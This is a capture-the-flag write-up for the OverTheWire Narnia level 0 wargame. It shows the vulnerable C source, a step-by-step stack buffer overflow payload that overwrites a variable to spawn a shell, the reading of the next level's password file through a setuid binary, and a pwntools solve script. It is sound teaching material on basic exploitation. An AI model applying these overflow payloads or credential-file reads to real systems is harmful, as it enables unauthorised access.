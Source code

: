 
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  

This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

Before we do anything, let's go ahead and run the program and see what it does.

```
# ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: AAAAAAAA  
buf: AAAAAAAA  
val: 0x41414141  
WAY OFF!!!!  
```

Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.

Let's go ahead and take a peek at the source:

```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.

```
# python -c 'print "R"*21' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
val: 0x41410052  
WAY OFF!!!!  
```

Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.

```
# python -c 'print "R"*24' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
val: 0x52525252  
WAY OFF!!!!  
```

Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.

```
# python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
val: 0xefbeadde  
WAY OFF!!!!  
```
Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our values aren't in the correct order.  Let's fix that.

```
# python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
val: 0xdeadbeef  
```

Well, we didn't get the ```WAY OFF!!!``` message, but no shell. I actually spent a good bit of time at this stage, but learned a few key concepts in doing so.  The shell is being launched, but the problem is that it's exiting before we have a chance to run anything.  What we need to do is use the subshell syntax in bash and try to group commands together.  Let's try that with a basic command.
 
```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';ls) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found
```

Now this looks a little better.  It looks like the output from ```ls``` was passed into the /bin/sh from narnia0. Here we can utilize the ```cat``` command with no parameters which will basically leave the input open for us to pass values to /bin/sh.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
pwd 
/narnia
```

Finally. The ```cat``` command left the input open for us and everything we passed was executed by /bin/sh as a separate command.  Now we just need to find where the flag may be.

```
narnia0@melinda:/narnia$ find / -name 'narnia*' -print 2>/dev/null
/games/narnia
/games/narnia/narnia8
/games/narnia/narnia6.c
/games/narnia/narnia6
/games/narnia/narnia3
/games/narnia/narnia7
/games/narnia/narnia4
/games/narnia/narnia2.c
/games/narnia/narnia3.c
/games/narnia/narnia1
/games/narnia/narnia5
/games/narnia/narnia4.c
/games/narnia/narnia5.c
/games/narnia/narnia0
/games/narnia/narnia2
/games/narnia/narnia1.c
/games/narnia/narnia7.c
/games/narnia/narnia8.c
/games/narnia/narnia0.c
/etc/narnia_pass
/etc/narnia_pass/narnia3
/etc/narnia_pass/narnia7
/etc/narnia_pass/narnia5
/etc/narnia_pass/narnia1
/etc/narnia_pass/narnia8
/etc/narnia_pass/narnia6
/etc/narnia_pass/narnia9
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia2
/etc/narnia_pass/narnia4
/narnia
/home/narnia3
/home/narnia7
/home/narnia5
/home/narnia1
/home/narnia8
/home/narnia6
/home/narnia9
/home/narnia0
/home/narnia2
/home/narnia4
```

The ```find / -name 'narnia*'``` is a fairly basic command.  The ```-print 2>/dev/null``` is basically just there to eliminate any errors that may clutter the output.  Out of our results the most promising is the ```/etc/narnia_pass``` directory that looks like there is a password document for each challenge.  Since we already have the password for narnia0, let's try to grab the narnia1 password.

```
narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ ls -l /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov 14  2014 /etc/narnia_pass/narnia1
narnia0@melinda:/narnia$ ls -l narnia0
-r-sr-x--- 1 narnia1 narnia0 7452 Nov 14  2014 narnia0
```

We can't just ```cat``` the narnia1 password because we don't have permissions but it looks like the narnia0 challege runs under narnia1.  Let's use our subshell trick and try to read the password.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
**********
```

There we go. Finally got it. On to narnia1.

As a followup, I wanted to work my way back through these challenges implementing the solutions with the [pwntools](http://pwntools.com) python module in an effort to sharpen my python skills and learn how to utilize this module for future CTF fun.  Below is my solution:

```python
from pwn import *

s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0')
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef, endian='little'))
sh.sendline('cat /etc/narnia_pass/narnia1')
log.info('Flag: '+sh.recvline().split('\n')[0])
```
